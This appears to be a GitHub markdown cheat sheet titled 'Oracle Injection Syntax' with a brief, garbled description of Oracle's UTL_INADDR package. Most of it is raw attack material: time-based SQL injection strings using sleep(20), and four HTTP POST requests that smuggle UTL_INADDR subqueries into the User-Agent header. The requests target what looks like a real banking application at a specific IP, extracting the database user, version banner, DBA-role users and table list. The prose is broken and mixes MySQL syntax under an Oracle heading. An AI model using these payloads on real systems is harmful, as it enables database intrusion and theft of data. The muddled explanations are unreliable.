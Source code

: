 # Oracle Injection Syntax

The UTL_INADDR package provides a PL/SQL procedures to support internet addressing.It provides an API to retrieve host names and IP addresses of local and remote hosts retrieving host names and IP addresses of remote hosts from PL/SQ It contains two functions which return the server machine name and its IP address. 
When an Web application is being used Oracle Database. there is only possible to perform  SQL Injection PL/SQL Syntax Like IF condition THEN when_true [ELSE when_false] END IF.
IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END
```

1' and if(1=1, sleep(20), true)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), false)#
1' or if(1=1, sleep(20), true)#
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select user from dual))--+) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select banner from v$version where rownum=1))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select username FROM user_role_privs WHERE granted_role='DBA';))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1

```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select owner, table_name FROM all_tables;))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
